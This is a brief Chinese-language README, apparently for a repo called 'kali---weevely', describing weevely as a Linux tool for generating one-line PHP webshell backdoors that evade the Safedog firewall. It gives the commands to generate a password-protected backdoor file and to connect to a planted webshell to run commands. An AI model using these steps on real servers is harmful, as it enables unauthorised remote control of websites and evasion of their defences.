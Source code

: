 # kali---weevely

weevely, linux下的菜刀，可以生成过狗的一句话木马  

生成后门代理  
```r
weevely generate password /root/Desktop/hello.php
```

连接一句话：  
```r
weevely <URL> <password> [cmd]
```


2017/9/2  
